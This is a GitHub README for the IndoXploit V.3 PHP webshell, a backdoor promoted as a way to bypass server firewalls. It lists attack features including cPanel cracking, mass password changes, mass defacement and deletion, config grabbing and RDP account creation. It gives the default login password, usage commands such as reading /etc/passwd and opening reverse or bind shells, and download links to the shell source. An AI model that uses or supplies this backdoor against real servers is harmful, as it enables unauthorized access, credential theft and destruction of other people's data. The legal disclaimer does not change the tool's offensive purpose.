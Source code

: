 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by [**agussetyar**](https://github.com/agussetyar) from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

**Usage of indoxploit shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program**

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - ***Read File***
~~~
 usage: rf [filename]
 example: rf /etc/passwd
~~~

 - Spawn File/Tools 
 ~~~
 usage: spawn [name]
~~~

[name]
- Adminer (adminer)
- WebConsole (webconsole)
- CGI Telnet 1 (cgitelnet1)
- CGI Telnet 2 (cgitelnet2)
- PHPINFO (phpinfo)

 example:
~~~
 spawn adminer
 spawn webconsole
 spawn cgitelnet1
~~~

- ***Jumping***
~~~
usage: jumping
~~~

- ***Config Grabber***
~~~
usage: idxconfig
~~~

 - ***Symlink***
 ~~~
 usage: symlink
~~~

 - ***Reverse Shell***
 
***[Back Connect]***
~~~
usage: rvr bc [IP] [PORT] [TYPE]
~~~
Example:
~~~
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
~~~

***Bind Port***
~~~
usage: rvr bp [PORT] [TYPE]
~~~
Example:
~~~
rvr bp 1337 perl
~~~

 - ***KRDP - Create RDP Account (for windows server only)***
 ~~~
 usage: krdp
~~~
 - ***Logout From Shell***
 ~~~
 usage: logout
~~~
 - ***Kill Backdoor***
~~~
usage: killme
~~~

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.

## Article
- [Download Shell Backdoor IndoXploit V.3](https://exploit.linuxsec.org/download-shell-backdoor-indoxploit-v-3/)
- [Download Shell backdoor Indoxploit V.2](https://exploit.linuxsec.org/shell-indoxploit-v2-dirilis/)
- [Download IndoXploit WebShell First Edition](https://exploit.linuxsec.org/indoxploit-shell-v1/)

## Disclaimer
Any actions and or activities related to the material contained within this tool is solely your responsibility.The misuse of the information in this tool can result in criminal charges brought against the persons in question.

Note: modifications, changes, or changes to this code can be accepted, however, every public release that uses this code must be approved by writing this tool (indoxploit team)



1. https://www.indoxploit.or.id/repository/indoxploit_v3.txt
2. https://raw.githubusercontent.com/indoxploit-coders/indoxploit-shell/master/shell-v3.php
3. https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/shell-v3.php

